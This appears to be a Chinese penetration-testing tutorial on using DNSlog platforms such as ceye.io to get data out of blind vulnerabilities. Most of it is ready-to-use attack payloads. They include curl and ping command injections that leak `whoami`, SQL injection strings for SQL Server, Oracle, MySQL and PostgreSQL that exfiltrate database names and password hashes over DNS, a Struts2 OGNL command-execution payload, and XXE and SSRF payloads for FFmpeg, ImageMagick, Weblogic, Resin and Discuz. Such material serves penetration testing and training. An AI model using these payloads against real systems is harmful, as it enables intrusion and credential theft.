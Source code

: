 # 渗透测试技巧-dnslog

在渗透环境时，我们经常会遇到疑似命令执行还有些bool注入和延时注入，但是都没有回显。

命令执行我们可能会用各种各样的请求来判断是否存在命令执行，对于bool注入和延时注入这两种注入类型的缺点就是速度慢，效率低，一个是基于对错判断数据，一个是基于访问时间来判断数据，dnslog的出现就正好弥补了这样的缺陷。

## 0x00 原理

```text
    **首先需要有一个可以配置的域名，比如：ceye.io，然后通过代理商设置域名 ceye.io 的 nameserver 为自己的服务器 A，然后再服务器 A 上配置好 DNS Server，这样一来所有 ceye.io 及其子域名的查询都会到 服务器 A 上，这时就能够实时地监控域名查询请求了，图示如下。**
```

![](../.gitbook/assets/dnslog1.png)

DNS在解析的时候会留下日志，咱们这个就是读取多级域名的解析日志，来获取信息

简单来说就是把信息放在高级域名中，传递到自己这，然后读取日志，获取信息。

## 0x01 利用

首先给大家分享[一个免费的dnslog平](http://ceye.io/)台\(ps:要是有cloudeye激活码的可以忽略\)。

平台会给每一个会员分一个二级域名`xxx.ceye.io`。

简单的来说，dnslog平台自己保留dns的日志信息，并对应每个会员一个二级域名，这样我们可以通过

```text
ping test.xxxxx.ceye.io
```

这样的多级域名方式，把我们需要返回的信息链接到url中，然后分析日志，test部分就是我们得到的信息。

### 0x01.1 命令执行

在我们找到命令执行漏洞的时候，我们可以执行这样的命令判断:

```text
 linux:
 curl http://ip.port.domain.ceye.io/`whoami`
 ping `whoami`.ip.port.domain.ceye.io
 ping %USERNAME%.domain.ceye.io
```

这时候就可以去dnslog瓶体查看到信息![](../.gitbook/assets/dnslog4.png)![](../.gitbook/assets/dnslog2.png)![](../.gitbook/assets/dnslog3.png)

### 0x01.2 SQL注入

#### **SQL Server**

存储程序用于获取所有文件夹的列表和给定文件夹内部的子文件夹。

```text
DECLARE @host varchar(1024);
注册一个名为@host的变量，类型为varchar。
SELECT @host=CONVERT(varchar(1024),db_name())+'.xxxxxxxxx.ceye.io';
获取db_name()然后转换成varchar类型，然后吧获取的db_name()返回值拼接到dnslog平台给我们的子域名里面，然后赋值给@host变量。
EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');
列远程主机的foobar$目录,由于是远程主机，所以会做一个dns解析，这样我们的dns平台就能得到日志了
http://xxxx.com.cn/?Id=123';DECLARE @host varchar(1024);SELECT @host=CONVERT(varchar(1024),db_name())+'.xxxxxxxxx.ceye.io';EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');--
```

#### **Oracle**

UTL-INADDR包用于互联网的寻址–诸如检索本地和远程主机的主机名和IP的地址:

```text
SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');
SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;
SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;
SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;
SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;
```

#### **MySQL**

MySQL的函数LOAD\_FILE\(\)读取文件内容并将其作为字符串返回：LOAD\_FILE\(\):

```text
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM user WHERE user='root' LIMIT 1),'.b182oj.ceye.io\\abc'));
```

#### **PostgreSQL**

PostgreSQL的声明COPY用于在文件系统的文件和表之间拷贝数据:

```text
DROP TABLE IF EXISTS table_output;
CREATE TABLE table_output(content text);
CREATE OR REPLACE FUNCTION temp_function()
RETURNS VOID AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd
FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content)
FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';
EXECUTE exec_cmd;
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
SELECT temp_function();
```

![](../.gitbook/assets/dnslog5.png)![](../.gitbook/assets/dnslog6.png)

### **0x01.3 XSS（无回显）**

通过盲打，让触发者浏览器访问预设至的链接地址，如果盲打成功，会在平台上收到如下的链接访问记录：

payload:&gt;&lt;img src=[http://xss.xxxx.ceye.io/aaa&gt;让src请求我们的dnslog平台](http://xss.xxxx.ceye.io/aaa>让src请求我们的dnslog平台)

### 0x01.4 ssrf\(无回显\)

payload:

```text
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test">
%remote;]>
<root/>
```

### 0x01.5 Struts2

```text
xx.action?redirect:http://ip.port.b182oj.ceye.io/%25{3*4}

xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
```

### 0x01.6 FFMpeg

```text
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://ip.port.b182oj.ceye.io
#EXT-X-ENDLIST
```

### 0x01.7 Weblogic

```text
xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
```

### 0x01.8 ImageMagick

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(http://ip.port.b182oj.ceye.io)'
pop graphic-context
```

### 0x01.9 Resin

```text
xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.b182oj.ceye.io/ssrf
```

### 0x01.10 Discuz

```text
http://xxx.xxxx.com/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://ip.port.b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
```

### 0x01.11 xxe\(无回显\)

参考[https://www.secpulse.com/archives/49194.html](https://www.secpulse.com/archives/49194.html)![](../.gitbook/assets/dnslog7.png)![](../.gitbook/assets/dnslog8.png)

